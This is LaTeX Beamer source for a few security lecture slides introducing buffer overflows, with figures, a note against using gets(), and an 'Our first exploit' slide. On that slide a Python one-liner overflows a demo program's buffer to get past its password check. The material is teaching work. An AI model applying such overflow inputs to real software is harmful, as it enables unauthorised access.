 \documentclass{beamer}
\newcommand{\sword}{\includegraphics[width=15pt]{sword.png} \hspace*{5pt}}
\begin{document}
\begin{frame}{\sword Case study: the notorious buffer overflow}
A buffer overflow example.
\begin{figure}[htb]
\includegraphics[width=7cm]{buffer.png}
\caption{From Wikimedia commons, buffer overflow basic example.}
\end{figure}
\end{frame}
\begin{frame}{\sword Memory Management: Linux}
  \begin{center}
    \includegraphics[height=5.8cm]{linux_stack.png}
  \end{center}
  \let\thefootnote\relax\footnote{\tiny http://duartes.org/gustavo/blog/}
\end{frame}
\begin{frame}{\sword Vulnerable code}

\end{frame}

\begin{frame}[fragile]{\sword Our first exploit}

\begin{terminal}
$ python -c " print 'x'*80 + '\x01' " | ./test1
Enter password:
You win!
$
\end{terminal}

\vspace*{0.5cm}
\pause
\textbf{Line 10:} gets(buf);\\
{\footnotesize ``Never  use  gets().'' - GNU Man pages(3), gets()
}

\end{frame}
\end{document}
